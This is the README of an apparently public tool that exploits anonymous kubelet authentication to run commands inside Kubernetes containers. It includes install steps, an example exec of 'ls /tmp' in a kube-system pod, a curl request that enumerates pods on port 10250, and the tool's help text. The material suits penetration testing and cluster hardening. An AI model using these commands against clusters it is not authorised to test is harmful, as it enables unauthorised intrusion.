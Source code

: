 # Kubelet Anonymous RCE

>Executes commands in a container on a kubelet endpoint that allows anonymous authentication (default)

## Why?

By default `kubelet` allows anonymous authentication:

```
--anonymous-auth
    Enables anonymous requests to the Kubelet server. Requests that are not
    rejected by another authentication method are treated as anonymous
    requests. Anonymous requests have a username of system:anonymous, and a
    group name of system:unauthenticated. (default true)
```

The `kubelet` API is not documented but the [code](https://github.com/kubernetes/kubernetes/blob/master/pkg/kubelet/server/server.go) is straightforward.

There is a `/exec` endpoint which allows running a command in a target container and returns a link to fetch the output. That link is a stream that should be read with a WebSocket.

This script handles it all easily.

## Install

```
$ git clone https://github.com/serain/kubelet-anon-rce.git
$ cd kubelet-anon-exec
$ pip3 install -r requirements.txt
```

## Example

This command runs `ls /tmp` in the `tiller` container and returns the output:

```
$ python3 kubelet-anon-rce.py           \
          --node 10.1.2.3               \
          --namespace kube-system       \
          --pod tiller-797d1b1234-gb6qt \
          --container tiller            \
          --exec "ls /tmp"
```

## How do I find containers?

You can get a list of pods/containers running on the node from the `/pods` endpoint:

```
$ curl https://10.1.2.3:10250/pods
```

This is also useful to confirm anonymous authentication.

## Help

```
$ python kubelet-anon-exec.py --help
usage: kubelet-anon-exec.py [-h] [--port PORT] -t TARGET -n NAMESPACE -p POD
                            -c CONTAINER -x EXEC

Run commands against a Kubelet endpoint.

optional arguments:
  -h, --help            show this help message and exit
  --port PORT           endpoint port, default: 10250
  -t TARGET, --target TARGET
                        Kubernetes node IP address
  -n NAMESPACE, --namespace NAMESPACE
                        namespace, ie: 'default'
  -p POD, --pod POD     pod name, ie: 'dh-nginx-8484b69674-z9tzl'
  -c CONTAINER, --container CONTAINER
                        container name, ie:'nginx'
  -x EXEC, --exec EXEC  command to execute, ie: 'ls /tmp'
```
